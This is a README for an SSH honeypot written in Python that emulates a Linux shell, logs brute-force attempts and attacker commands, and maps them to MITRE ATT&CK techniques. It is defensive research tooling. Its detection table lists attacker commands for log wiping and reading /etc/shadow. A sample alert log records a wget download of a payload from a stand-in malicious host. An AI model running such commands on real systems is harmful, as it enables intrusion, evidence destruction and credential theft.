

# 🛡️ Sentinel SSH — Modular Paramiko SSH Honeypot & Threat Telemetry Engine

[](https://www.python.org/)
[](https://www.docker.com/)
[](https://pytest.org/)
[](DEPLOY.md)
[](LICENSE)

**Sentinel SSH** is a high-interaction-feel, lightweight, and fully emulated SSH honeypot built in Python using Paramiko. Engineered for public VPS deployment, it captures live brute-force attempts, interactive terminal commands, Indicators of Compromise (IOCs), and MITRE ATT&CK® technique identifiers in real time — **without executing untrusted attacker input or opening outbound network connections**.

---

## 🎯 Primary Use Cases

* **Threat Intelligence & Research**: Monitor real-world automated botnets, brute-force campaigns, and human attacker behavior.
* **Malware & IOC Collection**: Extract payload URLs, C2 server IPs, domain names, and cryptographic file hashes without permitting outbound network calls.
* **Security Operations & Detection Engineering**: Generate structured JSON telemetry logs directly actionable for SIEM ingestion (Elasticsearch, Splunk, Sentinel).

---

## 📐 System Architecture



---

## ✨ Key Features

### 🛡️ 100% Emulated Execution Safety
* **Zero Host Subprocesses**: Never invokes `subprocess`, `os.system`, `eval`, or `exec`.
* **Zero Outbound Downloads**: Commands like `wget`, `curl`, and `tftp` only extract IOC URLs into structured logs and return simulated shell responses. No outbound TCP packets leave the container.

### 👤 Adaptive Authentication Engine
* **Weak Credential Lists**: Pre-configured dictionary matching (`root/root`, `admin/admin123`, `user/password`).
* **Threshold-Based Admission**: Accepts login after $N$ failed attempts per IP address to capture extended post-exploitation command history.
* **Rate Throttling**: Limits concurrent connections globally and per-IP to resist Denial of Service (DoS).

### 🖥️ High-Fidelity Shell & Filesystem
* **Interactive Terminal & Exec Modes**: Handles both `ssh user@host` interactive PTYs and non-interactive `ssh user@host "cmd"` execution.
* **Compound Command Splitting**: Safely parses command chains concatenated with `;`, `&&`, and `||`.
* **Virtual Linux File Hierarchy**: In-memory virtual tree (`/proc/cpuinfo`, `/proc/meminfo`, `/etc/passwd`, `/etc/os-release`, `/tmp`, `/root`) with simulated file creation, deletion, append redirection (`>`, `>>`), and permission management.

### 🕵️ Threat Detection & MITRE ATT&CK® Mapping
Automated threat classification protects against false positives using regex word boundaries:

| Attack Category | MITRE ATT&CK® | Target Behavioral Patterns |
|---|---|---|
| **Reconnaissance** | `T1082`, `T1083` | `uname`, `lscpu`, `nproc`, `ifconfig`, `w`, `whoami`, `cat /proc/cpuinfo` |
| **Download Exec** | `T1105` | `wget`, `curl`, `tftp`, `fetch`, `lwp-download` |
| **Persistence** | `T1053.005`, `T1098.004` | `crontab`, `/etc/cron.*`, `authorized_keys` manipulation |
| **Defense Evasion** | `T1070.004` | `rm -rf /var/log`, `history -c`, `unset HISTFILE` |
| **Credential Access**| `T1003.008` | `cat /etc/shadow`, `grep root /etc/passwd` |

---

## 📂 Project Structure

```text
ssh_honeypot/
├── analyzer/              # Forensic report engine & log parser
│   └── analyzer.py        # Generates JSON & Markdown analytics reports
├── auth/                  # Authentication module & credential dictionary
│   └── auth.py
├── config/                # Central application settings & tuning
│   └── settings.py
├── core/                  # Paramiko connection server & SSH transport loop
│   └── connection.py
├── data/                  # Persistent telemetry log directory
│   └── logs/              # Rotating JSONL logs (audits, cmd_audits, alerts)
├── detection/             # Pattern matching & IOC extraction engine
│   └── detector.py
├── fs/                    # Virtual in-memory Linux filesystem tree
│   └── fake_fs.py
├── honeylog/              # Structured JSON Lines logging framework
│   └── logger.py
├── shell/                 # Command execution engine & command splitting
│   └── shell.py
├── tests/                 # Pytest automated test suite
│   ├── test_command_splitting.py
│   ├── test_detector.py
│   ├── test_fake_fs.py
│   └── test_json_log_parser.py
├── web/                   # Flask web dashboard & UI templates
│   ├── app.py
│   └── templates/
├── DEPLOY.md              # Production VPS & Tailscale VPN deployment guide
├── Dockerfile             # Hardened non-root Docker container image
├── docker-compose.yml     # Multi-container orchestration & network sandbox
├── main.py                # Main honeypot entry point
├── requirements.txt       # Dependencies (paramiko, flask, pytest)
└── README.md
```

---

## ⚡ Quick Start Guide

### 1. Local Installation & Testing

```bash
# Clone repository
git clone https://github.com/zied42/ssh_honeypot.git
cd ssh_honeypot

# Install dependencies
pip install -r requirements.txt

# Run pytest unit test suite
python -m pytest -v tests/

# Launch honeypot server (Default bind: 127.0.0.1:2222)
python main.py
```

#### Test Connections in another terminal:

```bash
# Test 1: Interactive SSH Session
ssh -p 2222 root@127.0.0.1

# Test 2: Non-interactive Exec Mode
ssh -p 2222 admin@127.0.0.1 "uname -a; whoami"
```

#### Launch Analytics Web Dashboard:
```bash
python web/app.py
```
Open **`http://127.0.0.1:5000`** in your browser.

---

### 2. Docker Deployment

Launch the isolated container environment with a single command:

```bash
docker-compose up -d --build
```

Verify status:
```bash
docker-compose ps
docker-compose logs -f ssh_honeypot
```

---

## ⚙️ Configuration Tuning (`config/settings.py`)

| Setting | Default | Description |
|---|---|---|
| `COMMON_CREDENTIALS` | `[("root","root"), ...]` | Pre-approved weak login dictionary |
| `ALLOW_ANY_AFTER_N_FAILS` | `3` | Number of failed attempts before granting access |
| `LISTEN_HOST` | `"0.0.0.0"` | Network interface IP binding |
| `LISTEN_PORT` | `2222` | SSH listening port |
| `MAX_GLOBAL_CONNECTIONS`| `50` | Global concurrent connection limit |
| `MAX_PER_IP_CONNECTIONS`| `5` | Maximum concurrent connections per client IP |
| `IDLE_TIMEOUT` | `120` | Session inactivity timeout (seconds) |
| `HOSTNAME` | `"ubuntu-server"` | Emulated terminal prompt hostname |

---

## 📜 Telemetry Log Schema (`data/logs/alerts.jsonl`)

All events are formatted in valid, single-line JSON with ISO 8601 UTC timestamps:

```json
{
  "timestamp": "2026-09-23T16:04:12.981240+00:00",
  "event": "alert",
  "session_id": "8f3b2a1c",
  "src_ip": "198.51.100.45",
  "username": "root",
  "severity": "HIGH",
  "hits": ["wget_download"],
  "category": "download_execute",
  "mitre_attack": ["T1105"],
  "command": "wget http://malware.evil/payload.sh -O /tmp/bot",
  "iocs": {
    "urls": ["http://malware.evil/payload.sh"],
    "ips": ["198.51.100.45"],
    "hashes": []
  }
}
```

---

## 📊 Analytics & Campaign Reporting

Generate complete threat intelligence reports in **JSON** or **Markdown**:

```bash
# Run analysis report for the last 30 days (720 hours)
python analyzer/analyzer.py --log-dir data/logs --output analytics_report.json --markdown analytics_report.md
```

---

## 🚀 Production Deployment & VPN Hardening

For production deployment instructions on a VPS (DigitalOcean, AWS, Oracle Cloud) with **Tailscale VPN** host protection, refer to the [Production Deployment Guide (DEPLOY.md)](DEPLOY.md).

---

## 📄 License & Disclaimer

This project is licensed under the **MIT License**.

> [!CAUTION]
> **Disclaimer**: This honeypot software is intended strictly for security research, threat intelligence collection, and educational purposes. Always deploy honeypot instances on isolated networks or dedicated VPS infrastructure. The author assumes no liability for misuse or unauthorized deployment.